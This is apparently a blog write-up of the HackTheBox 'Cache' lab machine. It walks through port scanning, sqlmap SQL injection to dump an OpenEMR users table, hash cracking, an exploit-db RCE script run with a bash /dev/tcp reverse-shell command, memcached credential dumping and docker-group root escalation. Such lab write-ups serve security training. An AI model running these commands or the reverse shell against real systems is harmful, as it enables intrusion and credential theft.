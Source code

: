 ```yaml
---
title: hackthebox cache walkthrough
author: fasto
date: 2020-10-21 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
```


<h1>Summary</h1>
 Hey ,<br>cashe machine was released today  <br> it's my favorite machine created by ASHacker I am going to share a writeup for it ,the machine available at HackTheBox for penetration testing<br>
in user part we do some basic enumeration gives us a credential and also we got domain which vulnerable with sqlinjection and rce we dump credential with sqlmap and than use it for rce to get shell as www and then we find creds in memcached to got user,for privilege escalation we descoverd that the user is in the group docker we got root very easily
 
  <br> 

<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
---
We start with scan ports:

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```                                                                                                                                                      
From the result above we found two working ports , port 80 and port 22                                                                                   
lets start with port 80                                                                                                                                  
![Desktop View](/img/00.png)

we find login page i've tried sql injection in login form but it's failed because the website isn't affected
![Desktop View](/img/0.png)


<h4>Enumeration</h4>


so i run dirb

![Desktop View](/img/1.png)
i found two directory
javascript 
and 
jquery
when i opened jquery i found one file there functionality.js i got inside the file 
<br>password : H@v3_fun
<br>username : ash
we keep it in text and keep continue

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
looking for domain with ffuf

![Desktop View](/img/3.png)
We found domain named hms like you see in the screen
add the domain in /etc/hosts
```
10.10.10.188    hms.htb
```
we open the domain in the browser 
![Desktop View](/img/4.png)
then i discovered that the application running in this domain is vulnerable with sql injection
<br>
by some googling i found youtube video explaining the vulnerability 


<br>
```https://www.youtube.com/watch?v=DJSQ8Pk_7hc ```
<br>

We intercept with burp

![Desktop View](/img/5.png)

We save the request in file
![Desktop View](/img/6.png)

then we inject with sqlmap :
```sqlmap -r om.req  --dbs```
<br>om.req ---> the request we saved
<br>
\--dbs  ---> Enumerate databases

![Desktop View](/img/7.png)
<br>we found the name of database 
![Desktop View](/img/8.png)
<br>we need to enmerate the tables<br>
``` sqlmap -r login.req -D openemr --table ```
<br>-D      ---> name of database we want to enumrate 
<br>--table ---> Enumerate  tables
<br>we got all tables in openemr now we need to dump user and password from  users_secure<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
like you see we found a hashed password <br>
we need to crack the hash with john <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
and we got  the password xxxxxx Now we can login into openemr 
<br>and by some googling we find openemr it's also affected by rce (allow us to upload shell) 
<br>we download the script from exploit-db and run it
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```

<br> we get our reverse shell
<h4>Privilege Escalation</h4>
i run netstat command <br> ```netstat -plant```
<br>


![Desktop View](/img/14.png)


<br>and i notice the port 11211 is open in local this port of memcached service

<br>lets dump data from it 
<br>connect with telnet
```telnet localhost 11211```
<br>lets start first with STAT command to print all the general statistics of the server

<br>


```
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```



<br>
then:
<br>

stats cachedump 1 0

```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```
<br>
get user:

```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
<br>
get passwd
```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>

![Desktop View](/img/15.png)

<br>we got user and password we connect with ssh
and we we figured out the user luffy is in doker group



we go to gtfobins 
<br>
<br>
```https://gtfobins.github.io/gtfobins/docker/```


<br>






![Desktop View](/img/16.png)

<br>

```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 
 
 ```
 
<br>![Desktop View](/img/17.png)
and we got root
